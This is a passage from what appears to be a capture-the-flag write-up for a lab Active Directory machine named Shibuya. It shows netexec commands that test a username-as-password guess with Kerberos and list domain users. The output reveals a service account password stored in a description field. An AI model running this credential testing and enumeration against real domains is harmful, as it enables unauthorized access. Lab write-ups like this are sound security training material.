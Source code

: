 We found two usernames. While wondering if they used the same password, we realized we were right. However, we confirmed it was correct using the `-k` option. I think NTLM auth is disabled.

```bash
➜  Shibuya netexec smb shibuya.vl -u red -p red   
SMB         10.10.105.26    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.105.26    445    AWSJPDC0522      [-] shibuya.vl\red:red STATUS_LOGON_FAILURE 
➜  Shibuya netexec smb shibuya.vl -u red -p red -k
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\red:red 
```

```zsh
➜  Shibuya netexec smb shibuya.vl -u red -p red -k --users                                    
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\red:red 
SMB         shibuya.vl      445    AWSJPDC0522      -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         shibuya.vl      445    AWSJPDC0522      _admin                        2025-02-15 07:55:29 0       Built-in account for administering the computer/domain 
SMB         shibuya.vl      445    AWSJPDC0522      Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         shibuya.vl      445    AWSJPDC0522      krbtgt                        2025-02-15 07:24:57 0       Key Distribution Center Service Account 
SMB         shibuya.vl      445    AWSJPDC0522      svc_autojoin                  2025-02-15 07:51:49 0       K5&<REDACTED>
SMB         shibuya.vl      445    AWSJPDC0522      Leon.Warren                   2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Graeme.Kerr                   2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Joshua.North                  2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Shaun.Burton                  2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Gillian.Douglas               2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Kelly.Davies                  2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Conor.Fletcher                2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Karl.Brown                    2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Tracey.Wood                   2025-02-16 10:23:34 0        
SMB         shibuya.vl      445    AWSJPDC0522      Mohamed.Brooks                2025-02-16 10:23:34 0        
```

We saw that the password for the `svc_autojoin` user is in the description field, so let's verify it.

